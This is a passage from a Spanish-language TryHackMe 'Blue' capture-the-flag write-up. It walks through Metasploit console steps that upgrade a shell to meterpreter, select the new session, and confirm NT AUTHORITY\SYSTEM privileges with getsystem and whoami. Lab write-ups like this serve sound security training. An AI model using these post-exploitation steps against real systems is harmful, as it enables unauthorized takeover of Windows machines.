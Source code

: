![[WriteUps en Github/1. Blue (THM)/IMG/Pasted image 20250225033542.png]]

también configuramos LHOST a tun0 (que ha dado problemas), usando:

```
set LHOST tun0
```

![[WriteUps en Github/1. Blue (THM)/IMG/Pasted image 20250225033724.png]]

## d) ¡run! Si esto no funciona, intenta completar el exploit de la tarea anterior una vez más.

una vez configurado, lanzamos el exploit:

```
run
```

![[WriteUps en Github/1. Blue (THM)/IMG/Pasted image 20250225033830.png]]

OJO que puede fallar y no crear la sesión 2, debe salirnos esto:

![[WriteUps en Github/1. Blue (THM)/IMG/Pasted image 20250225034122.png]]

si no sale, repetir desde set session 1... hasta que salga.

## e) Una vez que se complete la conversión del shell de meterpreter, seleccione esa sesión para su uso.

Y ahora, iniciamos la sesión 2 que es la que acabamos de crear.

```
set session 2
sessions 2
```

![[WriteUps en Github/1. Blue (THM)/IMG/Pasted image 20250225034309.png]]

## f) Verifique que hayamos escalado a NT AUTHORITY\SYSTEM. Ejecute getsystem para confirmarlo. No dude en abrir un shell de DOS mediante el comando 'shell' y ejecutar 'whoami'. Esto debería indicar que efectivamente somos system. Luego, vuelva a poner este shell en segundo plano y seleccione nuestra sesión meterpreter para usarla nuevamente.

Comprobamos que efectivamente todo funciona correctamente:

```
getsystem
shell
whoami
```
